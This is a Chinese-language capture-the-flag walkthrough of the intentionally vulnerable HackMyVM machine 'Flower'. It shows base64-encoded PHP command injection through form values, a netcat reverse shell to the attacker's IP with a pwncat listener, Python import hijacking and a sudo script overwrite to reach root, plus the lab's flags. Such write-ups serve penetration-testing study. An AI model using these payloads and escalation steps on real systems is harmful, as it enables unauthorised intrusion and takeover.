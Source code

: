 # Flower

:::note

[Linux VM] [Tested on VirtualBox] created by || alienum

⏲️ Release Date // 2020-12-01

✔️ MD5 // 83814c761c7d8042d6e5be77efdd73c5

☠ Root // 179

💀 User // 179

📝Notes //
No need overthinking, it's straightforward.

:::

## 靶机启动

![靶机启动](img/image_20231244-114439.png)

靶机 IP：

```plaintext
192.168.56.114
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.114
Host is up (0.00047s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:02:B0:39 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 探测 web 服务

尝试直接访问

![访问 /](img/image_20231201-120131.png)

通过对页面源码进行分析，发现以下语句

```html
<option name="Lily" value="MSsy">Lily</option>
<option name="Buttercup" value="Misz">Buttercup</option>
<option name="Delphiniums" value="Mys1">Delphiniums</option>
<option name="Cineraria" value="NSs4">Cineraria</option>
<option name="Chicory" value="OCsxMw==">Chicory</option>
<option name="Chrysanthemum" value="MTMrMjE=">Chrysanthemum</option>
<option name="Michaelmas daisies" value="MjErMzQ=">Michaelmas daisies</option>
```

`value` 参数点比较有趣，发现其为 base64 编码后的计算表达式，那么就可能存在命令执行的可能

尝试使用 php 常见的 `system` 函数进行命令执行

```plaintext
system('ls') --base64--> c3lzdGVtKCdscycp
```

![POST 执行 ls](img/image_20231207-120734.png)

发现确实存在命令执行漏洞，尝试反弹 shell

```plaintext
system('nc -e /bin/sh 192.168.56.102 9999') --base64--> c3lzdGVtKCduYyAtZSAvYmluL3NoIDE5Mi4xNjguNTYuMTAyIDk5OTknKQ==
```

![web 服务 执行反弹 shell](img/image_20231242-124235.png)

成功得到反弹的 shell

```bash
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[12:15:56] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
[12:17:08] received connection from 192.168.56.114:43236                                                                                                      bind.py:84
[12:17:09] 0.0.0.0:9999: upgrading from /usr/bin/dash to /usr/bin/bash                                                                                    manager.py:957
           192.168.56.114:43236: registered new host w/ db                                                                                                manager.py:957
(local) pwncat$ back

(remote) www-data@flower:/var/www/html$  whoami
www-data
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for www-data on flower:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on flower:
    (rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

## 尝试提权

可以发现，`rose` 可以无密码执行一个 python 脚本，并且脚本所在目录是可以控制的，于是尝试写入反弹 shell

```python
import os;os.system('/bin/bash')
```

然后将 payload 写入 `pickle.py` 文件，使得 `import` 的时候可以被控制

```bash
echo "import os;os.system('/bin/bash')" > pickle.py
```

然后开始利用

```bash
(remote) www-data@flower:/home/rose/diary$ ls -lh
total 8.0K
-rw-r--r-- 1 rose     rose     147 Nov 30  2020 diary.py
-rw-r--r-- 1 www-data www-data  33 Dec 29 03:22 pickle.py
(remote) www-data@flower:/home/rose/diary$ sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py
rose@flower:~/diary$ whoami
rose
```

## user pwned

```bash
rose@flower:~$ cat user.txt
HMV{R0ses_are_R3d$}
```

## 进一步提权探测

```plaintext title="sudo -l"
Matching Defaults entries for rose on flower:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rose may run the following commands on flower:
    (root) NOPASSWD: /bin/bash /home/rose/.plantbook
```

查看文件的内容

```bash
#!/bin/bash
echo Hello, write the name of the flower that u found
read flower
echo Nice, $flower submitted on : $(date)
```

## 进一步尝试提权

虽然 `/home/rose/.plantbook` 文件不具有写入权限，但是其所有权是 `rose` 用户，所以可以直接修改文件权限后直接编辑

```bash
#!/bin/bash
/bin/bash
```

用 poc 覆盖原本 `/home/rose/.plantbook` 的文件内容，然后利用

```bash
rose@flower:~$ sudo /bin/bash /home/rose/.plantbook
root@flower:/home/rose# whoami
root
```

## root pwned

```bash
root@flower:~# cat root.txt 
HMV{R0ses_are_als0_black.}
```
